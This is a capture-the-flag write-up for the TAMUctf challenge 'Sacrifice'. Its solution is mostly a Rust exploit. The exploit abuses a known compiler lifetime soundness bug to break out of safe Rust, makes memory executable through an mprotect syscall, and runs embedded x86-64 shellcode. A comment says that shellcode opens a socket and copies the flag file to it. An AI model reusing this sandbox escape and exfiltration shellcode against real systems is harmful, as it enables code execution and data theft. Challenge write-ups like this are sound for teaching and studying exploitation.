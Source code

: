 # Sacrifice
## Description
One of the TAMUctf devs committed some heinous crimes with `unsafe`, so Ferris cast our poor dev into UB jail. The almighty crab's ire can only be appeased with an offering of the finest, 110% safe, non-GMO Rust code -- can you make a worthy sacrifice and save our dev?

## Solution

1. pain
2. https://github.com/rust-lang/rust/issues/25860
3. haha ub go brr

```rust
static UNIT: &'static &'static () = &&();

fn foo<'a, 'b, T>(_: &'a &'b (), v: &'b T) -> &'a T { v }

fn lmao<'a, T>(x: &'a T) -> &'static T {
    let f: fn(_, &'a T) -> &'static T = foo;
    f(UNIT, x)
}


fn valid(a: usize, b: usize, c:u32) {}

fn make_funny_ref() -> &'static &'static fn(usize, usize, u32) {
    let r = &(valid as fn(usize, usize, u32));
    lmao(&r)
}

fn wrap_mprotect() {
    let x= 0xc3050f0000000ab8usize;
}

fn pwn(func: &'static &fn(usize, usize, u32), target: usize, shellcode: usize) {
    let r = &target;
    func(shellcode,0x1000,7);
}

// open socket 127.0.0.1:4444 and copy /sacrifice/flag.txt to it
static SHELLCODE: [u8; 116] = [106,41,88,106,2,95,106,1,94,153,15,5,72,137,197,72,184,1,1,1,1,1,1,1,2,80,72,184,3,1,16,93,126,1,1,3,72,49,4,36,106,42,88,72,137,239,106,16,90,72,137,230,15,5,104,117,121,117,1,129,52,36,1,1,1,1,72,184,99,101,47,102,108,97,103,46,80,72,184,47,115,97,99,114,105,102,105,80,106,2,88,72,137,231,49,246,15,5,65,186,255,255,255,127,72,137,198,106,40,88,72,137,239,153,15,5];
pub fn main() {
    let shellcode = &SHELLCODE as *const _  as usize;
    let real_mprotect = wrap_mprotect as fn() as *const ()  as usize + 3;
    let valid_ref = make_funny_ref();
    pwn(valid_ref, real_mprotect, shellcode >> 12 << 12); //
    pwn(valid_ref, shellcode, 0);
}
```
4. survive being executed for terrible writeup